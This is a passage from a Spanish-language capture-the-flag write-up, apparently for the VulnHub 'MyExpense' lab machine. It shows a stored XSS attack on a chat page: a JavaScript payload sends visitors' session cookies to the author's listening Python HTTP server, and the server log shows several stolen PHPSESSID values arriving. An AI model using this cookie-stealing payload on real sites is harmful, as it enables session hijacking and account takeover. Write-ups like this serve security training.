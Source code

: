 Y bueno si los usuarios que estan en el chat estan conectados podemos aprovecharnos del `XSS` para tratar de robarles la `cookie` de sesion

```javascript
❯ catn zi.js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.15:8080/?gracias=' + document.cookie);
request.send();
```

Vamos a enviar el mensaje y le das a `Post your message`

![](/assets/images/vh-writeup-myexpen/Web26.png)

Ahora ponemos el servidor `http` con `python3` con el puerto que pusimos

```bash
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Y nos llegan `cookies`

```bash
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
192.168.100.38 - - [28/Mar/2023 20:14:00] "GET /zi.js HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 20:14:00] "GET /?gracias=PHPSESSID=031jhhj0m30342qq0dkoauhqm5 HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 20:14:00] "GET /?gracias=PHPSESSID=031jhhj0m30342qq0dkoauhqm5 HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 20:14:03] "GET /zi.js HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 20:14:03] "GET /?gracias=PHPSESSID=cf8b1vo86tnjmj90pa6c8mai90 HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 20:14:03] "GET /?gracias=PHPSESSID=cf8b1vo86tnjmj90pa6c8mai90 HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 20:14:04] "GET /zi.js HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 20:14:04] "GET /?gracias=PHPSESSID=v39g0413m0mtv3f7g3s5aendf6 HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 20:14:04] "GET /?gracias=PHPSESSID=v39g0413m0mtv3f7g3s5aendf6 HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 20:14:11] "GET /zi.js HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 20:14:11] "GET /?gracias=PHPSESSID=20umug3e0lhsso701tpu73b0s1 HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 20:14:23] "GET /zi.js HTTP/1.1" 304 -
192.168.100.38 - - [28/Mar/2023 20:14:23] "GET /?gracias=PHPSESSID=cf8b1vo86tnjmj90pa6c8mai90 HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 20:14:23] "GET /?gracias=PHPSESSID=cf8b1vo86tnjmj90pa6c8mai90 HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 20:14:24] "GET /zi.js HTTP/1.1" 304 -
192.168.100.38 - - [28/Mar/2023 20:14:24] "GET /?gracias=PHPSESSID=v39g0413m0mtv3f7g3s5aendf6 HTTP/1.1" 200 -
192.168.100.38 - - [28/Mar/2023 20:14:24] "GET /?gracias=PHPSESSID=v39g0413m0mtv3f7g3s5aendf6 HTTP/1.1" 200 -
```
